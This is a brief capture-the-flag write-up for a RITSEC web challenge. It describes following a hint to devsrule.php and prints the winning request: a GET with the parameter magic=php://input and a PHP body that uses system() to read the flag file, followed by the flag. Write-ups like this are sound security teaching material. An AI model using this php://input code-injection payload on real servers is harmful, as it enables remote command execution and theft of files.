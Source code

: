 # Description
```
fun.ritsec.club:8007

Author: jok3r
```
This challenge was built on "The Tangled Web"

# Solution
In the Stars.html file there was an additional hint to check out devsrule.php and an order to do fancy stuff there.Same challenges as The Tangled Web. See Hint on Stars.html 
> Getting remote access is so much work. Just do fancy things on devsrule.php 

There we find another message mentioning that the parameter was magic. Doing some fancy stuff resulted in the following winning payload

```http
GET /devsrule.php?magic=php://input HTTP/1.1
Host: fun.ritsec.club:8007
Connection: close
Content-Length: 43
 
<?php system(“cat /home/joker/flag.txt”);?>
```
This GET request resulted in 
>  RITSEC{WOW_THAT_WAS_A_PAIN_IN_THE_INPUT} 